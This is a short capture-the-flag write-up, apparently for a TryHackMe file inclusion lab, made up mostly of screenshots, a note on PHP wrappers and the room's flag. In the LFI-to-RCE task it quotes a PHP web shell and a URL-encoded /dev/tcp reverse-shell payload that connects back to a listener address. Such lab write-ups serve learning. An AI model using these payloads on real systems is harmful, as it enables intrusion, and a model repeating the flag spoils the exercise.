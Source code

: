 ![Pasted image
20240209021724.png](https://github.com/sudo-awk/CTF/blob/main/THM/File_Inclusion-Path_Traversal/Pasted%20image%2020240209033647.png){.internal-embed
touched="true"}

### File Inclusion Types

![Pasted image
20240209021805.png](https://github.com/sudo-awk/CTF/blob/main/THM/File_Inclusion-Path_Traversal/Pasted%20image%2020240209021724.png){.internal-embed
touched="true"}

### PHP WRAPPER

    PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.
    Copy

![Pasted image
20240209033546.png]([/home/aaron/Documents/thm/Pasted%20image%2020240209033546.png](https://github.com/sudo-awk/CTF/blob/main/THM/File_Inclusion-Path_Traversal/Pasted%20image%2020240209021758.png)){.internal-embed
touched="true"}

    Task 8 LFI2RCE - Wrappers

    I copied the `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` and submitted it to the server

    Copy

![Pasted image
20240209032424.png](/home/aaron/Documents/thm/Pasted%20image%2020240209032424.png){.internal-embed
touched="true"}

    and then I used this payload to get a reverse shell 

    page=/var/log/apache2/access.log&&cmd=/bin/bash -c '0<%26196%3Bexec 196<>%2Fdev%2Ftcp%2F10.6.29.207%2F9001%3B sh <%26196 >%26196 2>%26196'

    this is just a url encoded payload i crafted from revshells.com
    Copy

![Pasted image
20240209032701.png](/home/aaron/Documents/thm/Pasted%20image%2020240209032701.png){.internal-embed
touched="true"}

    THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc}
    Copy

    and finally the most important part is mitigation
    Copy

**![Pasted image
20240209033150.png](/home/aaron/Documents/thm/Pasted%20image%2020240209033150.png){.internal-embed
touched="true"}**
